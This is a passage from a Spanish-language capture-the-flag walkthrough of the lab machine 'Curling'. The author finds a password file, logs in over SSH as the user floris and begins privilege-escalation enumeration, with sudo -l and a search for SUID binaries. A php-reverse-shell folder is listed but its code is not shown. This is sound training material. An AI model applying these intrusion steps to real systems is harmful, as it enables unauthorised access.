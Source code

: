 ```bash
Size:       19
Compressed: 10240
❯ ll
drwx------ k4miyo 1004 132 B  Fri Mar 18 14:51:39 2022  php-reverse-shell-1.0
.rw-r--r-- root   root  22 B  Fri Mar 18 14:36:07 2022  credentials.txt
.rw-r--r-- root   root 309 B  Fri Mar 18 15:16:14 2022  data
.rw-r--r-- root   root 244 B  Fri Mar 18 15:17:37 2022  data2
.rw-r--r-- root   root 173 B  Fri Mar 18 15:17:37 2022  data2~
.rw-r--r-- root   root 141 B  Tue May 22 14:16:20 2018  password
.rw-r--r-- root   root  19 B  Tue May 22 14:15:47 2018  password.txt
.rw-r--r-- root   root 1.1 KB Fri Mar 18 15:13:10 2022  password_backup
.rw-r--r-- root   root  10 KB Tue May 22 14:16:20 2018  password~
```

Ya tenemos un `password.txt` que al abrirlo vemos la contraseña posiblemente del usuario **floris**; por lo tanto vamos a tratar de conectarnos por ssh:

```bash
❯ ssh floris@10.10.10.150
The authenticity of host '10.10.10.150 (10.10.10.150)' can't be established.
ECDSA key fingerprint is SHA256:o1Cqn+GlxiPRiKhany4ZMStLp3t9ePE9GjscsUsEjWM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.150' (ECDSA) to the list of known hosts.
floris@10.10.10.150's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar 18 21:26:27 UTC 2022

  System load:  0.0               Processes:            172
  Usage of /:   49.2% of 9.78GB   Users logged in:      0
  Memory usage: 22%               IP address for ens33: 10.10.10.150
  Swap usage:   0%


0 updates can be applied immediately.


Last login: Wed Sep  8 11:42:07 2021 from 10.10.14.15
floris@curling:~$ whoami
floris
floris@curling:~$
```

Ahora si ya somos el usuario **floris** y podemos visualizar la flag (user.txt). Vamos a enumerar un poco el sistema para ver de que forma podemos escalar privilegios.

```bash
floris@curling:~$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
floris@curling:~$ sudo -l
[sudo] password for floris: 
floris@curling:~$ cd /
floris@curling:/$ find \-perm -4000 2>/dev/null
./snap/core/4486/bin/mount
./snap/core/4486/bin/ping
./snap/core/4486/bin/ping6
./snap/core/4486/bin/su
./snap/core/4486/bin/umount
./snap/core/4486/usr/bin/chfn
./snap/core/4486/usr/bin/chsh
./snap/core/4486/usr/bin/gpasswd
```